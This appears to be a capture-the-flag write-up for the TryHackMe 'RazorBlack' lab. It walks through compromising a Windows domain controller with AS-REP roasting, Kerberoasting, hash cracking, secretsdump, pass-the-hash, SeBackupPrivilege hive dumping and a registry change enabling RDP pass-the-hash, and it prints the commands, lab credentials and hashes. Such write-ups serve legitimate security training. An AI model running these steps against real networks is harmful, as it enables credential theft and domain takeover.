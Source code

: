 # RazorBlack
https://tryhackme.com/room/raz0rblack | 10.10.130.118 | 2022-06-09

## Initial Scan
```
┌──(kali㉿kali)-[~/Desktop]                                             
└─$ nmap -sCV $IP -T4 -p- -v -oG nmap.all                                                                                                  
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-06 10:03 EDT
Host is up (0.073s latency).                                                                                                             [52/120]
Not shown: 65508 closed tcp ports (conn-refused)
PORT      STATE SERVICE       VERSION  
53/tcp    open  domain        Simple DNS Plus   
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-06-06 14:04:39Z)
111/tcp   open  rpcbind       2-4 (RPC #100000)                         
| rpcinfo:                                                                                                                                       
|   program version    port/proto  service                              
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/tcp6  rpcbind
|   100000  2,3,4        111/udp   rpcbind    
|   100000  2,3,4        111/udp6  rpcbind
|   100003  2,3         2049/udp   nfs
|   100003  2,3         2049/udp6  nfs
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100005  1,2,3       2049/tcp   mountd
|   100005  1,2,3       2049/tcp6  mountd
|   100005  1,2,3       2049/udp   mountd
|   100005  1,2,3       2049/udp6  mountd
|   100021  1,2,3,4     2049/tcp   nlockmgr
|   100021  1,2,3,4     2049/tcp6  nlockmgr
|   100021  1,2,3,4     2049/udp   nlockmgr
|   100021  1,2,3,4     2049/udp6  nlockmgr
|   100024  1           2049/tcp   status
|   100024  1           2049/tcp6  status
|   100024  1           2049/udp   status
|_  100024  1           2049/udp6  status
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: raz0rblack.thm, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
2049/tcp  open  mountd        1-3 (RPC #100005)
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: raz0rblack.thm, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=HAVEN-DC.raz0rblack.thm
| Issuer: commonName=HAVEN-DC.raz0rblack.thm
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found                                                 
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found                                                 
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49671/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  msrpc         Microsoft Windows RPC
49677/tcp open  msrpc         Microsoft Windows RPC
49692/tcp open  msrpc         Microsoft Windows RPC        
49703/tcp open  msrpc         Microsoft Windows RPC                                                                                              
Service Info: Host: HAVEN-DC; OS: Windows; CPE: cpe:/o:microsoft:windows
```

DC: `raz0rblack.thm`

Important services: 
- SMB
- WinRM/RDP
- LDAP
- Kerberos
- RPC (Some can be mounted)

## Mount
```
┌──(kali㉿kali)-[~/Desktop]
└─$ showmount -e $IP          
Export list for 10.10.246.111:
/users (everyone)

┌──(kali㉿kali)-[~/Desktop]
└─$ sudo mount -t nfs $IP:/users temp 

┌──(kali㉿kali)-[~/Desktop]
└─$ sudo ls temp                     
employee_status.xlsx  sbradley.txt
```
The xlsx had names, and using the `sbradley` file name, I deduced that the rest of the are like this as well (first letter of name + last name)
```
dport
iroyce
tvidal
aedwards
cingram
ncassidy
rzaydan
lvetrova
rdelgado
twilliams
sbradley
clin
```

Then I used ASREP roasting and found the hash of `twilliams`
```
┌──(kali㉿kali)-[/opt/impacket/examples]
└─$ python3 GetNPUsers.py -dc-ip $IP raz0rblack.thm/ -usersfile ~/Desktop/users.txt -no-pass -request
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

$krb5asrep$23$twilliams@RAZ0RBLACK.THM:3296af43e914219a14c3112b082c2d2d$f98a2a5d842b64a12943002bdfa8d7dd6545727cf1ec551956e43679b9991785c0b1006879fcde99522efbb2a87facffe14b335750225a291bff7dd12bf0fe32bac13fa146baa04fd22099ef29c32303b4919695d2e2e3c5f5577779aef23e618c22b5212c69eafbdbf8b96a1752b65efcd999f8fa70726e9ba677fbd0138ba44dd160b3df8d76eb2bd3c941118528539ceddd2c38e4bf7fe99a5d5d66a48f5d85a5a6734f997b739447260ed908ce6563eebc39df4b8ae6ed0fcbc3fbbbd04e2ab1e944837dd9709e0e3265ae22f94c1aeacb854b8acfda8b9f6581b0794f6e67f7179b9fb91baa567ab5d2b0c83a41
```

Then I cracked the hash with hashcat mode 18200: `roastpotatoes`
So the final user-pass combo is: `twilliams:roastpotatoes`

## SMB
Using enum4linux I and the creds from before I managed to find additional users on the machine.
```
xyan1d3
lvetrova
sbradley
twilliams
```

Trying the same password on these accounts, leads to find that sbradley has the same account, and that it needs to be changed, so I changed it to `password`
```
┌──(kali㉿kali)-[/opt/impacket/examples]
└─$ smbpasswd -r $IP -U sbradley                                                                                                                                          
Old SMB password:
New SMB password:
Retype new SMB password:
Password changed for user sbradley
```
`sbradley:password`

Login with this new account to the previously found SMB share, we find a chat log, and a zip file.
From the chat log we learn a few things:
- The machine is *probably* vulnerable to zero-logon
- sbradley has WinRM access.
- secretsdump.py might be helpful.
- The zip file contains the ntds.dit and the SYSTEM.hive

After cracking the zip using john, we found that the password of the zip is: `electromagnetismo`

Using the zip contents I used secretsdump locally:
```
python3 secretsdump.py -ntds ~/Desktop/razorblack/ntds.dit -system ~/Desktop/razorblack/system.hive
```

Using these NTLM hashes, I checked them against lvetrova since that user has AD admin permissions according to the excel table.
```
┌──(kali㉿hotdog)-[~/Desktop/razorblack]
└─$ cat secrets.output | cut -d: -f4 > hashes.txt

┌──(kali㉿hotdog)-[~/Desktop/razorblack]
└─$ crackmapexec smb $IP -u lvetrova -H hashes.txt
SMB         10.10.79.156    445    HAVEN-DC         [+] raz0rblack.thm\lvetrova:f220d3988deb3f516c73f40ee16c431d
```

Then I accessed the account with Evil-WinRM
```
evil-winrm -i $IP -u 'lvetrova' -H 'f220d3988deb3f516c73f40ee16c431d'
```

## Ljudmila Shell
To get the next flag I found a peculiar xml file, after a bit of research I managed to find how to decode it
```
*Evil-WinRM* PS C:\Users\lvetrova> $credential = Import-CliXml -Path lvetrova.xml

*Evil-WinRM* PS C:\Users\lvetrova> ($credential.GetNetworkCredential()).Password

THM{Redacted}
```

Using lvetrova's creds I ran GetUserSPNs
```
──(kali㉿hotdog)-[~/Desktop/razorblack]
└─$ python3 /opt/impacket/examples/GetUserSPNs.py -dc-ip $IP raz0rblack.thm/lvetrova -hashes f220d3988deb3f516c73f40ee16c431d:f220d3988deb3f516c73f40ee16c431d -request
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

ServicePrincipalName                   Name     MemberOf                                                    PasswordLastSet             LastLogon  Delegation 
-------------------------------------  -------  ----------------------------------------------------------  --------------------------  ---------  ----------
HAVEN-DC/xyan1d3.raz0rblack.thm:60111  xyan1d3  CN=Remote Management Users,CN=Builtin,DC=raz0rblack,DC=thm  2021-02-23 10:17:17.715160  <never>
```
Then cracking the has found with the command above, we find the password `cyanide9amine5628`

## Xyan1d3 Shell
`xyan1d3:cyanide9amine5628` + evil winrm
getting the flag like last time with the xml thingy

1. SeBackupPrivilege priv
2. 
```
reg save hklm\sam C:\Users\xyan1d3\Documents\sam.hive
reg save hklm\system C:\Users\xyan1d3\Documents\system.hive
```
3. `python3 /opt/impacket/examples/secretsdump.py -sam sam.hive -system system.hive local`
4. Pass-The-Hash as admin - evilwinrm

## Admin
`reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f`

`xfreerdp /u:Administrator /pth:9689931bed40ca5a2ce1218210177f0c /v:10.10.18.107`

then claiming the flags